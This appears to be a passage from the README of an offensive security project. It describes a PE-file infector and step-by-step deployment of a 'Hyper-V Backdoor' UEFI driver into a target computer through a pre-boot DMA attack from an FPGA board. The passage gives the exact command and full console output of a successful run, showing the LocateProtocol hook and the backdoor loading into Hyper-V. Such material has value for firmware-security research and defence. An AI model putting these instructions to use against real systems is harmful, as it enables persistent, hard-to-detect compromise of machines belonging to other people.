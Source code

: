  * `infector.py` &minus; PE files infector used for deployment of Hyper-V Backdoor with UEFI flash image infection and Windows boot manager image file infection.


## Deploying the backdoor using pre-boot DMA attack

Python program `uefi_backdoor_hv.py` injects UEFI DXE driver of Hyper-V Backdoor located in `payloads/DmaBackdoorHv` folder into the target system boot sequence using pre-boot DMA attack described in "Practical DMA attacks" section of the [PCI Express DIY hacking toolkit documentation](https://github.com/Cr4sh/s6_pcie_microblaze#practical-dma-attacks). To use this program you have to perform the following steps:

 1) Power off the target computer.

 2) Connect your FPGA board used for DMA attacks to the PCI-E (or Mini PCI-E, or M.2) port of the target computer.

 3) Turn the board on and ensure that its firmware was successfully initialized. 

 4) Run the following command to start pre-boot DMA attack: 

```
$ ./uefi_backdoor_hv.py --driver payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
```

 5) Power on the target computer, in case of successful attack after the couple of seconds you will see red debug messages screen of injected UEFI DXE driver.

An example of `uefi_backdoor_hv.py` console output after the successful attack:

```
$ ./uefi_backdoor_hv.py
[+] Using UEFI system table hook injection method
[+] Reading DXE phase payload from payloads/DmaBackdoorHv/DmaBackdoorHv_X64.efi
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Looking for DXE driver PE image...
[+] PE image is at 0x77160000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x2c20
Backdoor entry RVA is 0xbd4
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0bd4
3.611646 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for Hyper-V load...
[+] Hyper-V image was loaded

    Hyper-V image base: 0xfffff8072d690000
           Image entry: 0xfffff8072d901360
       VM exit handler: 0xfffff8072d8add90

[+] DONE
```
